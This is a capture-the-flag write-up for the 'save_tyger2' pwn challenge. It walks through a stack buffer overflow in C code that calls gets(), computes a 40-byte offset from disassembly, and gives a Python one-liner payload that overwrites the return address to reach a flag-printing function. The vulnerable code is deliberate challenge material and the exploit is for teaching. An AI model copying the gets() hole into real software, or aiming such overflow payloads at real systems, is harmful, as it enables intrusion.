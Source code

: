 # pwn/save_tyger

## Challenge

Tyger needs your help again.
<br>
Connect with `nc litctf.live 31788`

[save_tyger2](https://drive.google.com/uc?export=download&id=1qCSTo01YjzrncT0SZGOTouC4egY_q-PX)

## Solution

Like [last time](./save_tyger.md), we're given a C file (and the executable):
```c
#include <stdlib.h>
#include <stdio.h>

void cell(){
	printf("Thank god you got him out of this cockroach-infested cell!\n");
	FILE *f = fopen("flag.txt", "r");
	char flag[64];
	if(f == NULL){
		printf("Something went wrong. Please let Eggag know.\n");
		exit(1);
	}
	fgets(flag, 64, f);
	puts(flag);
    exit(0);
}

int main(){
	char buf[32];
	printf("NOOOO, THEY TOOK HIM AGAIN!\n");
	printf("Please help us get him out or there is no way we will be able to prepare LIT :sadness:\n");
	gets(buf);
}
```
This is another classic problem.

We need to somehow call `cell()`. Note the usage of `gets` for input, which lets us write arbitrarily many characters, so we can overflow `buf` into the return address. We now look in the executable (`objdump -d`) for the address of `cell()`, and where `buf` is stored:
```
0000000000401162 <cell>:
...
00000000004011cd <main>:
  4011cd:	55                   	push   %rbp
  4011ce:	48 89 e5             	mov    %rsp,%rbp
  4011d1:	48 83 ec 20          	sub    $0x20,%rsp
  4011d5:	bf 7d 20 40 00       	mov    $0x40207d,%edi
  4011da:	e8 51 fe ff ff       	callq  401030 <puts@plt>
  4011df:	bf a0 20 40 00       	mov    $0x4020a0,%edi
  4011e4:	e8 47 fe ff ff       	callq  401030 <puts@plt>
  4011e9:	48 8d 45 e0          	lea    -0x20(%rbp),%rax <- buf
  4011ed:	48 89 c7             	mov    %rax,%rdi
  4011f0:	b8 00 00 00 00       	mov    $0x0,%eax
  4011f5:	e8 56 fe ff ff       	callq  401050 <gets@plt>
...
```
`cell()` is at `0x0000000000401162` (addresses are 64-bit, or 8 bytes). `buf` is at `%rbp - 0x20`.
That means we need `0x20 = `32 bytes to reach `%rbp`, which points to the address of the previous stack frame, which is 8 bytes long.
Past that is the return address location, so we need to skip 40 bytes total.
So we need to send 40 junk characters, and then `0x0000000000401162`:
```py
print("a"*40+"6211400000000000".decode("hex"))
```
Note the leading/trailing 0s are important, to overwrite the entirety of the original address.

Pipe the Python output into the netcat command, and we get our flag.

## Flag

`LITCTF{w3_w0nt_l3t_th3m_t4k3_tyg3r_3v3r_4gain}`
